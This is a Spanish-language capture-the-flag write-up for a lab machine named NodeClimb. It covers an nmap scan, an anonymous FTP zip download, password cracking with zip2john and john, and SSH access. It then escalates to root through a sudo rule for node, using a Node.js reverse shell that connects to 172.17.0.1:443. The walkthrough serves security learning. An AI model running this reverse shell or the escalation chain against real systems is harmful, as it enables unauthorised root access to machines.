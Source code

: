 # MÁQUINA NODECLIMB

Lo pirmero que tednremos que hacer será escanear los puertos que se encuentran abiertos dentro de la máquina con el comando nmap:

```shell
nmap -p- -sS -sC -sV -vvv --min-rate 5000 -Pn 172.17.0.2
```

![NMAP](https://github.com/Isma-yo/photos/blob/main/NodeClimb/foto.jpg)

Vemos que tenemos tanto el puerto 21 como el 22 abierto. En el puerto 21 podemos acceder con el usuario Anonymous sin contraseña y vemos que hay un zip que parece interesante, así que vamos a descargarlo en nuestra máquina atacante:

```shell
ftp anonymous@172.17.0.2
```

![FTP](https://github.com/Isma-yo/photos/blob/main/NodeClimb/foto2.jpg)

Si intentamos descomprimir el zip vemos que nos pide una contraseña, la cuál no sabemos (aún jeje). Podemos utilizar la herramienta zip2john para obtener un hash:

```shell
zip2john secretitopicaron.zip > hash
```

![ZIP](https://github.com/Isma-yo/photos/blob/main/NodeClimb/foto3.jpg)

Una vez tenemos el hash podemos obtener la contraseña usando john:

```shell
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

![JOHN](https://github.com/Isma-yo/photos/blob/main/NodeClimb/foto4.jpg)

Ahora que ya tenemos la contraseña podemos descomprimir el zip, y vemos que contiene un usuario llamado mario y su contraseña:

![PASSWD](https://github.com/Isma-yo/photos/blob/main/NodeClimb/foto5.jpg)

Por lo que vamos a conectarnos por SSH a la máquina:

![SSH](https://github.com/Isma-yo/photos/blob/main/NodeClimb/foto6.jpg)

Una vez dentro de la máquina si hacemos un ls vemos que tenemos un script, el cuál esta vacío:

![SCRIPT](https://github.com/Isma-yo/photos/blob/main/NodeClimb/foto7.jpg)

Si ejecutamos el comando sudo -l vemos que podemos ejecutar node como root acompañado del script que hemos visto antes. Así que vamos a intentar obtener una reverse shell como root gracias a ese script, para ello nos iremos a la página de RevShells y ahí seleccionaremos la opción de node.js #2 y pondremos nuestros datos:

![SUDO](https://github.com/Isma-yo/photos/blob/main/NodeClimb/foto8.jpg)

https://www.revshells.com/

```shell
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(443, "172.17.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```
Y una vez guardado el script, nos ponemos en escucha y ejecutamos de la manera que nos dice el sudo -l:

```shell
sudo /usr/bin/node /home/mario/script.js
```

![ROOT](https://github.com/Isma-yo/photos/blob/main/NodeClimb/foto9.jpg)

Y ya somos root!








